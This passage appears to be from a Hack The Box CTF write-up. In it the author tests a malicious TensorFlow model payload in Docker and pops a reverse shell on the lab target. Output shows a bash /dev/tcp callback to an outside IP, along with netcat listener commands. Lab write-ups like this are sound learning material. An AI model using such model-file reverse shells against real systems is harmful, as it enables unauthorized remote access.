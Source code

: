 ### Exploitation
- We have a winner! First, I had to set up a development container (as seen above). After that, I created a vulnerable container from the Dockerfile given and ran it to run with the host network in order to test a reverse shell:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> sudo docker run --network host -v .:/exploit/ --entrypoint /bin/bash -it artificial:latest
```
- After this, I build the payload in the development container:
```a
root@6d696d1c3eec:/exploit# python3 build_payload.py    
/bin/bash: connect: Connection refused  
/bin/bash: line 1: /dev/tcp/10.10.14.237/2112: Connection refused  
Epoch 1/100  
/bin/bash: connect: Connection refused  
/bin/bash: line 1: /dev/tcp/10.10.14.237/2112: Connection refused  
/bin/bash: connect: Connection refused  
/bin/bash: line 1: /dev/tcp/10.10.14.237/2112: Connection refused
```
- Connections are refused for a variety of reasons. The docker container for development probably isn't allowing ports to open, and there isn't anything listening on the port. The next step is to start listening with netcat on my host:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> nc -lvnp 2112
```
- And now I can attempt the execution of the payload on the victim container:
```a
root@lkotlus-precision7550:/exploit# python3 test_exploit.py    
2025-08-02 04:47:54.022430: I tensorflow/core/platform/cpu_feature_guard.cc:182] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.  
To enable the following instructions: AVX2 FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.
```
- I check the listener, and it's exactly what we like to see:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(norm)> nc -lvnp 2112
Connection from 10.10.14.237:33398  
root@lkotlus-precision7550:/exploit#
```
- Now I just need to listen and try this out on the actual target. I set up the listener, upload the file, and... nothing. Not terrible though, the page still loads model predictions.
- I don't give up very easily, and attempt just switching my port to `8080` rather than my random `2112`, as the firewall is more likely to allow it. This works in my favor, and we popped our first shell for the machine!
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(norm)> nc -lvnp 8080  
Connection from 10.10.11.74:34928  
bash: cannot set terminal process group (806): Inappropriate ioctl for device  
bash: no job control in this shell  
app@artificial:~/app$
```
